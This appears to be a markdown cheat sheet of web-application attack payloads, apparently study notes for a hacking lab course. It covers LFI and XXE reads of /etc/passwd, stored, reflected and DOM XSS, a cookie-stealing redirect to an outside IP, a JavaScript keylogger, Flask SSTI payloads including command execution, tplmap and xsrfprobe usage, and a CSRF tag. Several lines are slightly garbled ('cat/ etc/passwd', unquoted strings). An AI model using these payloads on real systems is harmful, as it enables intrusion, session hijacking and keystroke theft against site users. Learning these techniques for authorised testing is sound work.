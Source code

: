 ### LFI (local file inclusion)

If you see a parameter you can try LFI on it.
```
http://127.0.0.1/?file=page.php
```
We can not try view a file on the system.
```
http://127.0.0.1/?file=../../../../../../etc/passwd
```

### XXE (XML External Entity)

This abuses features of XML parser/Data.

Let's look at the structure.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE file SYSTEM "file.dtd">
<file>
    <to>moon</to>
    <from>cake</from>
    <heading>food</heading>
    <body>XXE attack</body>
</file> 
```
XML document starts with 
```
<?xml version="1.0" encoding="UTF-8"?> 
```
The next part is called the DTD (Document Type Definition)
This defines the elements and attributes.

- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the to element to be of type "#PCDATA"
- !ELEMENT from - Defines the from element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
- !ELEMENT body - Defines the body element to be of type "#PCDATA"

We can abuse this to read a file on a system.
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
or change something
```
<!DOCTYPE replace [<!ENTITY food "cake"> ]>
 <foodInfo>
  <firstName>moon</firstName>
  <lastName>&food;</lastName>
 </foodInfo>
 ```
 
 ### XSS (Cross-Site Scripting)
 
 Injection where an attacker can execute malicious scripts and execute on machine
 
 #### Stored-XSS
 
 See if we can add html tags
 
 <b>comment</b>
 
 See if we can get a popup
 ```
 <script>alert(XSS popup)</script>
 ```
 We can even get cookies or change element with javascript
 
 ```
 <script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
 <script>alert(document.cookie)</script>
 ```
 We can also steal cookies from other users.
 
 ```
 <script>window.location='http://192.168.1.10/?cookie='+document.cookie</script>
 ```
 
 ####  Reflected XSS
 ```
 <script>alert("Hello")</script>
 <script>alert(window.location.hostname)</script>
 ```
 #### DOM-Based XSS
 ```
 test" onmouseover="alert('test')
 test" onmouseover="document.body.style.backgroundColor='red'
 ```
#### Keylogger

```
 <script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```

<img SRC="test" onmouseover=alert('Hello') />
<img SRC="test" onmouseover=confirm('Hello') />
<img SRC="test" onmouseover=alert('HHelloello') />
<img SRC="test" ONMOUSEOVER=alert('HHelloello') />

### SSTI (server side template injection)

flask for instance
```
check
{{2+2}}
LFI
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(/etc/passwd).read()}}
RCE
{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}
```
https://github.com/epinna/tplmap
```
./tplmap.py -u http://10.10.10.10:5000/ -d 'noot' --os-cmd "cat/ etc/passwd"
```

### CSRF (Cross Site Request Forgery)

```
<img src="http://localhost:3000/transfer?to=alice&amount=100">
```
```
pip3 install xsrfprobe
xsrfprobe -u <url>/<endpoint>
```

### JWT (JSON Web Token)

```
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"
HEAD.PAYLOAD.SECRET
```
https://jwt.io/
https://www.base64url.com/
